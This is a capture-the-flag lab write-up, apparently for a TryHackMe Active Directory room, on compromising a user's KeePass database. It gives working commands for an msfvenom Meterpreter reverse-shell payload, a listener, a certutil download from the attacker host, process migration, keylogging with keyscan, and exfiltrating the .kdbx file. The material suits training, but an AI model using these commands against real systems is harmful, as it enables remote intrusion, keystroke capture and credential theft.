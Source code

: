 # Exploiting AD Users

### <mark style="color:green;">Users and User Behaviour</mark> <a href="#users-and-user-behaviour" id="users-and-user-behaviour"></a>

Users are, unfortunately, often the weakest link in the security chain. Just think about weak passwords and bad habits, such as granting overly permissive permissions.

* Credential Management - How users store their credentials.
* Keylogging - Often, during exploitation, we need to understand how normal users interact with a system. Together with screengrabs, Keylogging can be a useful tool to gain this understanding from an attacker's perspective.

***

### <mark style="color:green;">Hunting for Credentials</mark>

Now that we have compromised THMSERVER1, we should probably look around to see if there is any useful information. Have a look at the user directories and see if there is some useful information in any of them.

Your enumeration efforts should lead you to a .kdbx file. A quick Google should confirm our suspicion that this file is indeed very valuable! We can use Meterpreter's download command to recover this file.

Last time we dumped the SAM hash of THMSERVER1, so we can just login to any of them and look for the .kdbx file

<figure><img src="../../../.gitbook/assets/image (215).png" alt=""><figcaption></figcaption></figure>

Logging into ServerAdmin and using this regex:

```powershell
Get-ChildItem -Path "C:\Users" -include "*.kdbx" -Recurse
```

<figure><img src="../../../.gitbook/assets/image (216).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:green;">SYSTEM is Sometimes Too Privileged</mark> <a href="#system-is-sometimes-too-privileged" id="system-is-sometimes-too-privileged"></a>

When we get our shell. It will be running as SYSTEM. Fortunately, Meterpreter provides us with a migrate feature, and since we are running as SYSTEM, we should be able to migrate to any process.

Apparently there is only one correct DB which is `trevor.local`'s. Now we use msfvenom to generate the keylogger and send it

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.50.11.98 LPORT="1234" -f psh -o shell.ps1
```

<figure><img src="../../../.gitbook/assets/image (217).png" alt=""><figcaption></figcaption></figure>

Setup listener

```bash
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.50.11.98; set LPORT '1234'; exploit"
```

<figure><img src="../../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

Host python server and download it on target machine

```powershell
certutil.exe -urlcache -split -f http://10.50.11.98:8000/shell.ps1
```

<figure><img src="../../../.gitbook/assets/image (221).png" alt=""><figcaption></figcaption></figure>

Execute the keylogger

<figure><img src="../../../.gitbook/assets/image (220).png" alt=""><figcaption></figcaption></figure>

After getting callback, find 'explorer' process

<figure><img src="../../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

Migrate the process to run meterpreter as user's process

<figure><img src="../../../.gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

Start keyscan sniffer

```bash
meterpreter > keyscan_start
```

After a few minutes dump the keystrokes and we get the password for the DB file

```bash
meterpreter > keyscan_dump
```

<figure><img src="../../../.gitbook/assets/image (224).png" alt=""><figcaption></figcaption></figure>

Download the DB file

```
meterpreter > download PasswordDatabase.kdbx
```

Open keepass on attacker machine

```bash
keepasxc
```

<figure><img src="../../../.gitbook/assets/image (226).png" alt=""><figcaption></figcaption></figure>

Unlock using password that was keylogged

<figure><img src="../../../.gitbook/assets/image (227).png" alt=""><figcaption></figcaption></figure>

We can see there is a user and his password that may be useful later. We also find the flag

<figure><img src="../../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

***



